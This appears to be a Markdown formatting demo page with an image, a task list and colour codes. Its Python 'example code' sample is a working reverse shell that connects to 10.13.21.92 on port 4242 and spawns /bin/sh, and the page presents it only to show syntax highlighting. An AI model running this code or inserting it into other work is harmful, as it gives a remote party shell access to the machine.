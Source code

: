 # Huge Graphic

![Image of Yaktocat](https://octodex.github.com/images/yaktocat.png)

## Example Code  
```html
<!DOCTYPE html>
<head>
  <title>Follow the white rabbit.</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>
<body>
    <h1>Follow the White Rabbit.</h1>
    <p>"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)</p>
    <img src="/img/white_rabbit_1.jpg" style="height: 50rem;">
</body>
```

### Example Code (smaller)

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.21.92",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```
Notice the colorized syntax highlighting, nice eh?

#### Example Task List 4
- [ ] Start learning GitHub Pages
- [ ] Outline my portfolio
- [ ] Introduce the World to Me

### Show off some colors?
This be some color blocks, no?
`#884422`
`#AA4488`
Or not  
But I can do Section Heading links  
Go back to [Top](#huge-graphic)  
Or to the [Example Code](#example-code)
